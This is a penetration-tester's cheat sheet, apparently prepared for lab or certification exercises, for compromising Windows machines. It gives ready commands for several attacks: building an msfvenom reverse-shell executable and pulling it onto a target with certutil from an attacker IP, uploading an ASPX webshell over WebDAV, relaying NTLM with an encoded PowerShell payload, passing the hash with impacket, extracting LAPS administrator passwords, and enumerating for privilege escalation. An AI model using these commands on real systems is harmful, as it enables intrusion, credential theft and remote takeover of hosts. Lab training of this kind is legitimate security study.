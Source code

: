 ## Quick Reference
- `dir /s/b local.txt` - Usually `C:\` or `C:\users\username\desktop\`
- `dir /s/b proof.txt` - Usually `C:\Users\Administrator\Desktop\`
- `dir /s/b *.txt`
- RDP: `xfreerdp /u:username /p:password /v:192.168.x.x /cert:ignore`
- RevShell.exe: `msfvenom -p windows/shell_reverse_tcp LHOST=192.168. LPORT=4444 -f exe -o revshell.exe`
- Compile C: `/usr/bin/x86_64-w64-mingw32-gcc cfile.c -o output.exe`
- Compile C#: `msbuild projectname.csproj`
- Transfer to Windows host: `certutil -split -urlcache -f http://192.168.x.x/revshell.exe C:\\Users\\username\\revshell.exe`
- Fix Broken Path: `set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;`
- Windows Exploit Suggester: [https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
## Port Enumeration (from Kali)
- **HTTP/WebDav (80)**: `cadaver 192.168.`
	- Run `put /usr/share/webshells/aspx/cmdasp.aspx` to upload command shell, then access via browser
- **Kerberos (88)**: `kerbrute userenum -d domain.name --dc 192.168. users`
- **SMB (139/445)**: `sudo nmap --script smb-vuln* -p 139,445 192.168.`
	- `smbclient -U user \\\\192.168.`
	- `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.xx.xxx -c "powershell -enc JABjAGwAaQBlAG4AdA..."` (base64 powershell one-liner)
		- Kali: Call fake directory `dir \\192.168.xx.xxx\fake` for reverse shell
	- Pass the Hash: `smbclient \\\\192.168.xx.xxx\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b`
- **LDAP (389)**: `sudo nmap -n -sV -Pn -script 'ldap* and not brute' 192.168.`
	- Domain Name found (LDAP Search): `ldapsearch -v -x -b 'DC=domain,DC=name' -H 'ldap://192.168.' '(objectclass=*)'`
	- Use credentials to find admin password `ldapsearch -x -H 'ldap://192.168.x.x' -D 'domain\user' -w 'userpassword' -b 'dc=domain,dc=name' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd`
		- To Login `psexec.py domain.name/administrator: 'adminpassword'@192.168.x.x` to login
## Impacket 
Psexec.py - `/usr/share/doc/python3-impacket/examples/psexec.py`
`impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.xx.xxx`
## PrivEsc (From Windows)
[HackTricks - Windows PrivEsc Checklist](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)
- Group memberships of the current user: `whoami /groups`
	- Existing groups: `net localgroup` or `Get-LocalGroup`	
	- Inspect groups `Get-LocalGroupMember groupname`
- Existing users: `net user` or `Get-LocalUser`
	- Look for *Remote Desktop Users* (access with RDP) and *Remote Management Users* (Access with WinRM)
	- Look for *Log on as a batch job* and schedule a task to execute a program
	- Try `backupadmin`: `runas /user:backupadmin cmd` (Prompt for password)
- Operating system, version and architecture: `systeminfo` 
	- Wiki Windows build number
	- Look for [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits?tab=readme-ov-file)
- Network information: `ipconfig /all`
	- Check `route print`
	- Show active connections `netstat -ano`
- Installed applications: 
	- 32-bit applications `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname` (Note - Remove `select displayname` for full properties)
	- 64-bit applications `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname` (Note - Remove `select displayname` for full properties)
	- Running processes: `get-process`
